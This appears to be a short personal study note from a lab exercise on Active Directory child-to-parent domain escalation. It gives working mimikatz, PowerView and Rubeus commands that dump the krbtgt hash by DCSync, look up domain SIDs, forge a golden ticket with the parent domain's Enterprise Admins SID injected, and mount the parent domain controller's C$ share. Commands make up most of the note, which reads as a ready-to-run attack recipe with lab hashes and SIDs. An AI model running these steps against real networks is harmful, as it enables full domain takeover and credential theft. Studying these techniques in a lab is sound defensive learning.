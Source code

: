 # Mimikatz 
krbtgt hash and FQDN
```powershell-session
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```
sid for child domain
```powershell-session
Get-DomainSID
```
name of target user in the child domain, sid of the enterprise admins group
```powershell-session
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
here we can just use a fake user name "hacker"

now we create a golden ticket
in mimikatz
```powershell-session
kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
first sid is child domain, second sid is parent domain 

now we can try to access the domain controller c drive 
```powershell-session
ls \\academy-ea-dc01.inlanefreight.local\c$
```

```
net use Z: \\academy-ea-dc01.inlanefreight.local\c$
```

# Rubeus
```powershell-session
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
first sid is child, second is parent

Then after that we can also perform a [[4 DCSync]] attack using mimikatz also

